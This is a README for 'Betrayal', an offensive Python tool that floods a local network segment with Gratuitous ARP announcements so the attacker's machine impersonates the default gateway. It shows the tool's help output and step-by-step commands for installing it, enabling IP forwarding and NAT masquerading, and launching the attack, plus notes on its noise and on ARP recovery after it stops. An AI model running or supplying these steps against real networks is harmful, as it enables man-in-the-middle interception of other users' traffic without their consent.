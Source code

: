 # Betrayal
Gratuitous ARP Injector

```
python3 Betrayal.py --help                                                                                                                      2 

 ▄▄▄▄   ▓█████▄▄▄█████▓ ██▀███   ▄▄▄     ▓██   ██▓ ▄▄▄       ██▓    
▓█████▄ ▓█   ▀▓  ██▒ ▓▒▓██ ▒ ██▒▒████▄    ▒██  ██▒▒████▄    ▓██▒    
▒██▒ ▄██▒███  ▒ ▓██░ ▒░▓██ ░▄█ ▒▒██  ▀█▄   ▒██ ██░▒██  ▀█▄  ▒██░    
▒██░█▀  ▒▓█  ▄░ ▓██▓ ░ ▒██▀▀█▄  ░██▄▄▄▄██  ░ ▐██▓░░██▄▄▄▄██ ▒██░    
░▓█  ▀█▓░▒████▒ ▒██▒ ░ ░██▓ ▒██▒ ▓█   ▓██▒ ░ ██▒▓░ ▓█   ▓██▒░██████▒
░▒▓███▀▒░░ ▒░ ░ ▒ ░░   ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░  ██▒▒▒  ▒▒   ▓▒█░░ ▒░▓  ░
▒░▒   ░  ░ ░  ░   ░      ░▒ ░ ▒░  ▒   ▒▒ ░▓██ ░▒░   ▒   ▒▒ ░░ ░ ▒  ░
 ░    ░    ░    ░        ░░   ░   ░   ▒   ▒ ▒ ░░    ░   ▒     ░ ░   
 ░         ░  ░           ░           ░  ░░ ░           ░  ░    ░  ░
      ░                                   ░ ░                                                                                                             
    
Gratuitous ARP Injector
Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: Betrayal.py [-h] --gateway GATEWAY --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --gateway GATEWAY     Choose gateway IP address
  --interface INTERFACE
                        Choose your interface for attack
  --mac EVILMAC         Specify your MAC Address
```

## Mechanics
It is a modification of ARP spoofing. The script will shout at the entire channel segment that your computer is the default gateway by sending Gratuitous ARP messages.
Gratuitous ARP is a special ARP frame that sends out an announcement that a new binding of MAC address and IP address has occurred. This can be used by an attacker to conduct an MITM attack, run a script against the router's IP address.

The scanner waits for the following arguments as input:
  - network interface (--interface)
  - your MAC Address (--mac)
  - IP address of gateway (--gateway)
  
## How to use it

1. Install dependencies
```
git clone https://github.com/in9uz/Betrayal
sudo pip3 install -r requirements.txt
```
2. Enable Forwarding, MASQUERADE, NAT Helper 
```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
sudo modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
3. Attack
```
sudo python3 Betrayal.py --interface ethX --mac XX:XX:XX:XX:XX:XX --gateway <GW IP>
```
## Limitations
This attack is very noisy.
The tool does not restore the structure of ARP tables by itself. After the attack stops, the gateway's MAC address on the clients will change only after 5 minutes. Understand how ARP works.
GARP frames are sent every 800 ms. You can edit the script code and change the delay before sending the next frame, but be careful. There is a chance to strigger the Storm-Control system.
